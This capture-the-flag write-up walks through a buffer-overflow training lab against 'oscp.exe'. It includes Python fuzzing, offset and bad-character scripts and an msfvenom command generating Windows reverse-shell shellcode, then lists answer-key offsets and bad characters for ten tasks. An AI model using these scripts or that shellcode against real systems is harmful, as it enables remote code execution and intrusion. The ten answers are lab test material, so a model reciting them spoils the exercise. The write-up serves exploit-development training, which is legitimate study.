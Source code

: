 # Buffer Overflow Prep

### oscp.exe - OVERFLOW1
First of all, run Immunity Debugger as an Administrator and open `oscp.exe`. Then on the bar below, type `!mona config -set workingfolder c:\mona\%p` and press enter.<br />
Now the first thing I'm going to do is to find more or less how many bytes I need to send to crash the program. So I'm going to use the following script: 

#!/usr/bin/env python3

    import socket, time, sys
    
    ip = "10.10.70.48"
    
    port = 1337
    timeout = 5
    prefix = "OVERFLOW1 "
    
    string = prefix + "A" * 100
    
    while True:
      try:
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
          s.settimeout(timeout)
          s.connect((ip, port))
          s.recv(1024)
          print("Fuzzing with {} bytes".format(len(string) + len(prefix)))
          s.send(bytes(string, "latin-1"))
          s.recv(1024)
      except:
        print("Fuzzing crashed at {} bytes".format(len(string) + len(prefix)))
        sys.exit(0)
      string += 100 * "A"
      time.sleep(1)
(Change the IP address according to your instance).<br />
![image](https://github.com/user-attachments/assets/6bdf948e-cdbd-4e8a-ae36-a37dd678f4d9)<br />
I see that the program crashes with 2020 bytes. So now I want to know the offset, the exact number of bytes I need to crash the program i.e. to overflow the EIP. So I'm going to run `msf-pattern_create -l 2300 > pattern.txt`. And now I'll use the following script to find the right offset: 

    import socket
    
    ip = '10.10.70.48'
    port = 1337 
    
    # Change pattern here
    pattern = 'Aa0Aa1.........4Cy5Cy'
    
    string = 'OVERFLOW1 ' + pattern
    
    #send it all
    try: 
            with socket.socket() as s:
                    s.connect((ip,port))
                    print("Sending pattern...")
                    s.send(bytes(string,'latin-1'))
    except:
            print("Failed to connect")
First I need to re-run the program, so click on the following buttons in order: <br />
![image](https://github.com/user-attachments/assets/cf80bf54-9cb8-4b1a-8e1b-d4c55c5bfc68)<br />
Run the script; the program crashes again, this time I'm interested in the contents of the EIP: <br />
![image](https://github.com/user-attachments/assets/f121215f-c53b-46a5-a178-a5eec73ba808)<br />
I can see it's `6F43396E`. To find the exact offset, I run `msf-pattern_offset -l 2300 -q 6F43396E`:<br />
![image](https://github.com/user-attachments/assets/3ce864e3-55a2-41b8-bff2-e527ec2c8d53)<br />
So the offset is `1978`. Now the idea is to overflow the buffer with some shellcode, and overflow the EIP with an address that points to that shellcode. But first, I need to find the bad characters. Those are characters that are not valid for the target machine, and I need to make sure that the shellcode doesn't contain any of them. <br />
First of all, I use the following script to generate a list of characters in hex: 
    
    for x in range(1, 256):
      print("\\x" + "{:02x}".format(x), end='')
    print()

So now I execute the following python code:

    import socket
    
    ip = '10.10.70.48' 
    
    port = 1337 
    
    badchar = '\x01\x02\x03...\xfd\xfe\xff'
    
    string = 'OVERFLOW1 ' + 1978*'A' + 4*'B' + badchar
    
    try: 
            with socket.socket() as s:
                    s.connect((ip,port))
                    print("Sending badchars...")
                    s.send(bytes(string,'latin-1'))
    except:
            print("Failed to connect.")
Notice that we're overwriting the EIP with 4 B's, and then sending the list of bad characters.ls
So I rerun the program and the script: <br />
![image](https://github.com/user-attachments/assets/57739da3-ab3e-4289-a258-d3c4387788dc)<br />
As shown in the image above, the EIP is overwritten with 4 Bs, and the ESP is overwritten with `01B3FA30`. Now to check bad characters, first run `!mona bytearray -b "\x00"`. This will create a file containing the list of characters in hex. Then run `!mona compare -f C:\mona\oscp\bytearray.bin -a 01B3FA30`.<br />
![image](https://github.com/user-attachments/assets/adb4df98-43e9-47b2-9819-19437d7449c2)<br />
The bad characters found by mona are `00,07,2e,a0`. So the final answer is `\x00\x07\x2e\xa0`. This is going to be useful to create the shellcode, for example:  `msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=9001 EXITFUNC=thread -b "\x00\x07\x2e\xa0" -f c`:<br />
For the next taks the procedure is the same.

### oscp.exe - OVERFLOW2
- What is the EIP offset for OVERFLOW2? `634`
- In byte order (e.g. \x00\x01\x02) and including the null byte \x00, what were the badchars for OVERFLOW2? `\x00\x23\x3c\x83\xba`

### oscp.exe - OVERFLOW3
- What is the EIP offset for OVERFLOW3? `1274`
- In byte order (e.g. \x00\x01\x02) and including the null byte \x00, what were the badchars for OVERFLOW3? `\x00\x11\x40\x5F\xb8\xee`

### oscp.exe - OVERFLOW4
- What is the EIP offset for OVERFLOW4? `2026`
- In byte order (e.g. \x00\x01\x02) and including the null byte \x00, what were the badchars for OVERFLOW4? `\x00\xa9\xcd\xd4`

### oscp.exe - OVERFLOW5
- What is the EIP offset for OVERFLOW5? `314`
- In byte order (e.g. \x00\x01\x02) and including the null byte \x00, what were the badchars for OVERFLOW5? `\x00\x16\x2f\xf4\xfd`

### oscp.exe - OVERFLOW6
- What is the EIP offset for OVERFLOW6? `1034`
- In byte order (e.g. \x00\x01\x02) and including the null byte \x00, what were the badchars for OVERFLOW6? `\x00\x08\x2c\xad`

### oscp.exe - OVERFLOW7
- What is the EIP offset for OVERFLOW7? `1306`
- In byte order (e.g. \x00\x01\x02) and including the null byte \x00, what were the badchars for OVERFLOW7? `\x00\x8c\xae\xbe\xfb`

### oscp.exe - OVERFLOW8
- What is the EIP offset for OVERFLOW8? `1786`
- In byte order (e.g. \x00\x01\x02) and including the null byte \x00, what were the badchars for OVERFLOW8? `\x00\x1d\x2e\xc7\xee`

### oscp.exe - OVERFLOW9
- What is the EIP offset for OVERFLOW9? `1514`
- In byte order (e.g. \x00\x01\x02) and including the null byte \x00, what were the badchars for OVERFLOW9? `\x00\x04\x3e\x3f\xe1`

### oscp.exe - OVERFLOW10
- What is the EIP offset for OVERFLOW10? `537`
- In byte order (e.g. \x00\x01\x02) and including the null byte \x00, what were the badchars for OVERFLOW10? `\x00\xa0\xad\xbe\xde\xef`
